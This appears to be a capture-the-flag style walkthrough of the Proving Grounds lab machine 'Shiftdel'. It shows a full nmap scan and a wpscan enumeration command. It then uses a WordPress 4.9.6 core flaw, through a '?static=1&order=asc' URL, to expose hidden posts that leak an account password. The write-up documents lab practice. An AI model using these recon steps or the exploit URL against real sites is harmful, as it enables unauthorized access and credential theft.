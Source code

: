 #### Enumeration

```
# Nmap 7.91 scan initiated Sat Jan  1 23:01:45 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Shiftdel/AutoRecon/results/192.168.188.174/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Shiftdel/AutoRecon/results/192.168.188.174/scans/xml/_full_tcp_nmap.xml 192.168.188.174
Increasing send delay for 192.168.188.174 from 0 to 5 due to 1073 out of 2682 dropped probes since last increase.
Nmap scan report for 192.168.188.174
Host is up, received user-set (0.20s latency).
Scanned at 2022-01-01 23:01:46 EST for 926s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 4.9.6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Shiftdel
8888/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: 531B63A51234BB06C9D77F219EB25553
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: phpMyAdmin
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.32 or 3.10 (91%), Linux 3.5 (91%), Linux 4.4 (91%), WatchGuard Fireware 11.8 (91%), Synology DiskStation Manager 5.1 (90%), Linux 2.6.35 (90%), Linux 2.6.39 (90%), Linux 3.10 - 3.12 (90%), Linux 4.2 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=1/1%OT=22%CT=1%CU=39295%PV=Y%DS=2%DC=T%G=Y%TM=61D12748
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=106%TI=Z%II=I%TS=A)OPS(O1=M50
OS:6ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6
OS:=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF
OS:=Y%T=40%W=FAF0%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%
OS:Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6
OS:(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RU
OS:D=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 37.409 days (since Thu Nov 25 13:28:47 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   213.85 ms 192.168.49.1
2   215.24 ms 192.168.188.174

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  1 23:17:12 2022 -- 1 IP address (1 host up) scanned in 928.53 seconds

```

Acroding to the nmap scan results, we can confirm that wordpress is running on 80 port and version is ```4.9.6```. Using wpscan tool to check vulnerabilities. 
We found two accounts admin and intern but did not find plugins and themes vulnerability.

```
wpscan --url http://192.168.242.174 -e vt,vp,u1-10
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shiftdel/Shiftdel_2022.01.04_21h38m17s_001_.png)

After a lot of searching, I found a vulnerability in [wordpress core](https://www.exploit-db.com/exploits/47690). We can find hidden articles by browsing the vulnerability URL. One of the articles provides the password for the ```intern``` account.

```http://192.168.169.174/?static=1&order=asc```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Shiftdel/Shiftdel_2022.01.11_01h09m45s_002_.png)

